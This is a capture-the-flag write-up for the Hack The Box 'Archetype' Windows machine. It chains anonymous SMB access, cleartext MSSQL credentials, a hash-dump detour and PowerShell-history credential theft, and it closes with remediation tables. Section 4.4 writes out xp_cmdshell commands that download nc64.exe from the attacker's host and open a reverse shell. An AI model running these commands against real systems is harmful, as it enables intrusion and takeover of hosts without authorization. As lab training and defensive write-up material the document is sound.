









# Hack The Box — Archetype

> **Difficulty:** Easy &nbsp;·&nbsp; **OS:** Windows &nbsp;·&nbsp; **IP:** `10.10.10.27`
> SMB → MSSQL → shell → Administrator. I took the scenic route through the SQL internals before landing the intended path.

---

## Table of contents

1. [Planning & Reconnaissance](#1-planning--reconnaissance)
2. [Scanning & Enumeration](#2-scanning--enumeration)
3. [Vulnerability Assessment](#3-vulnerability-assessment)
4. [Exploitation](#4-exploitation)
5. [Post-Exploitation](#5-post-exploitation)
6. [Reporting & Analysis](#6-reporting--analysis)
7. [Remediation & Retesting](#7-remediation--retesting)

> Screenshots are real captures from my own authorized lab session.

---

## 1. Planning & Reconnaissance

A Windows host with SMB and a database usually means the path is "find credentials in a share, reuse them against the DB, turn the DB into code execution." That's my working hypothesis before I even scan. Black box, no creds.

---

## 2. Scanning & Enumeration

### 2.1 Port scan

```bash
nmap -sC -sV -A 10.10.10.27
```



The important ports: **445 (SMB)** and **1433 (MSSQL — SQL Server 2017)**, on a Windows Server 2019 host named `ARCHETYPE`, with WinRM (5985) also open. That's the hypothesis confirmed — I need credentials, and shares are the first place to look.

### 2.2 SMB — list shares anonymously

```bash
smbclient -N -L \\\\$IP
```



A non-default **`backups`** share is visible to a null session — that shouldn't be readable anonymously. Let's look.

```bash
smbclient //$IP/backups -N
smb: \> dir
#   prod.dtsConfig
smb: \> get prod.dtsConfig
```



`prod.dtsConfig` is an SSIS config file, and these store connection strings in cleartext. Reading it gives MSSQL credentials: **`sql_svc`** / **`M3g4c0rp123`**.

---

## 3. Vulnerability Assessment

| # | Finding | Why it matters |
|---|---------|----------------|
| 1 | Anonymous SMB read on `backups` | Null session reads sensitive files — broken access control |
| 2 | Cleartext creds in `prod.dtsConfig` | Service account handed to an attacker |
| 3 | MSSQL `xp_cmdshell` reachable with those creds | DB login → OS command execution |
| 4 | Plaintext admin creds in PowerShell history | Service user → Administrator |

---

## 4. Exploitation

### 4.1 Enumerate MSSQL with a custom script

Rather than reach straight for `mssqlclient.py`, I wrote a small **`pymssql`** script to authenticate as `sql_svc` and fingerprint the server — version, current login, and all SQL logins:

```python
import pymssql
queries = [
    "SELECT @@version",
    "SELECT user_name()",
    "SELECT system_user",
    "SELECT name FROM master..syslogins",   # dump logins
]
with pymssql.connect('10.10.10.27', 'ARCHETYPE\\sql_svc', 'M3g4c0rp123', 'master') as conn:
    ...
```



Running it confirms I'm connected as **`ARCHETYPE\sql_svc`** (mapped to `dbo`), on SQL Server 2017, and dumps every login — `sa`, the service accounts, `NT AUTHORITY\SYSTEM`, and more:



### 4.2 Check my privileges

Before anything destructive, I check what this login can actually do at the server level:

```sql
SELECT permission_name FROM master..fn_my_permissions(null, 'SERVER')
```


### 4.3 The hash-cracking detour (a dead end worth showing)

Since I could read the logins, I tried dumping the **password hashes** of the SQL accounts, aiming to crack `sa` and pivot:

```sql
SELECT name + ':' + master.sys.fn_varbintohexstr(password_hash) FROM master.sys.sql_logins
```



I threw the `sa` hash at hashcat (MSSQL mode, `rockyou.txt`):

```bash
hashcat -m 1731 sa.hash /usr/share/wordlists/rockyou.txt
```



**Result: `Status: Exhausted`, `Recovered: 0/1`.** The `sa` password wasn't in rockyou — dead end. Documenting this on purpose: real engagements are full of branches that don't pan out, and knowing when to abandon one is half the skill. Back to the intended path.

### 4.4 Code execution via xp_cmdshell → reverse shell

`sql_svc` can enable and run `xp_cmdshell`, turning the DB login into OS command execution. Enable it, stage `nc`, and fire a reverse shell:

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'powershell -c cd C:\Users\sql_svc\Downloads; wget http://<me>/nc64.exe -outfile nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Downloads\nc64.exe -e cmd.exe <me> 443';
```

The listener catches a shell as `sql_svc`, and the user flag is on their desktop:

```powershell
SHELL> gci c:\ -r -fi user.txt 2>NULL
#   Directory: C:\Users\sql_svc\Desktop  →  user.txt
```



---

## 5. Post-Exploitation

The highest-value, lowest-effort check on a Windows service account is the **PowerShell history file** — admins run commands with passwords inline and forget they're logged:

```cmd
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

That file contains a `net use` command with the local **Administrator** password in cleartext (`administrator` / `MEGACORP_4dm1n!!`). I use it for a fresh, fully-privileged session (psexec/WinRM), land as **Administrator**, and grab root:

```
SHELL> whoami
archetype\administrator
SHELL> gci c:\ -Force -r -fi root.txt 2>NULL
#   C:\Users\Administrator\Desktop  →  root.txt
```



Full chain: **anonymous SMB → cleartext DB creds → MSSQL enumeration → xp_cmdshell RCE → sql_svc shell → admin creds in PowerShell history → Administrator.** (The `sa` hash-crack branch was a dead end.)

---

## 6. Reporting & Analysis

Four misconfigurations and poor secret hygiene chained into full compromise:

- A **non-default SMB share was world-readable** via null session, leaking a config file.
- That file held **cleartext service-account credentials**.
- MSSQL let that account **enable `xp_cmdshell`**, turning a DB login into OS execution.
- A **plaintext Administrator password was left in PowerShell history**.

No exotic exploit — just the kind of layered sloppiness real Windows estates are full of. The hash-dump/crack attempt shows that even where a path *looks* promising (readable hashes), it can fail, and an attacker simply moves to the next weakness. Structured findings: see the Cap report for the full template layout.

---

## 7. Remediation & Retesting

| Finding | Fix | Retest |
|---------|-----|--------|
| Anonymous read on `backups` | Remove null-session access; restrict the share | `smbclient -N -L` shows no sensitive share |
| Cleartext creds in `prod.dtsConfig` | Remove the file; encrypt package configs; rotate the password | No readable artifact contains credentials |
| `xp_cmdshell` enabled by service account | Keep it disabled; least-privilege the SQL service account | `sql_svc` can't enable or run `xp_cmdshell` |
| Readable SQL login hashes | Restrict `VIEW SERVER STATE` / `sysadmin`-only access; strong `sa` password | Low-priv login can't read `sys.sql_logins` |
| Admin password in PowerShell history | Clear history; never pass plaintext creds on the CLI; rotate | History file holds no credentials |

**Retest verdict (template):** with the share locked down and secrets removed/rotated, entry and privesc both close. Mark *Remediated — re-exploitation unsuccessful*.

---

### Tools used

| Phase | Tools |
|-------|-------|
| Recon & scanning | **Nmap** |
| SMB enumeration | **smbclient** |
| Database enumeration | custom **pymssql** script, **MSSQL** system views |
| Credential attack (dead end) | SQL hash dump (`fn_varbintohexstr`), **hashcat** (`-m 1731`) |
| Code execution | MSSQL **xp_cmdshell**, **nc64.exe**, netcat listener |
| Privilege escalation | PowerShell history review, **psexec** / **Evil-WinRM** |

### References

- HTB Archetype (Starting Point) — writeups permitted.
- Microsoft docs — `xp_cmdshell`, `sys.sql_logins`.
- hashcat mode 1731 — MSSQL (2012/2014).

---

*Screenshots are from my own authorized lab session. Only test systems you're authorized to test.*
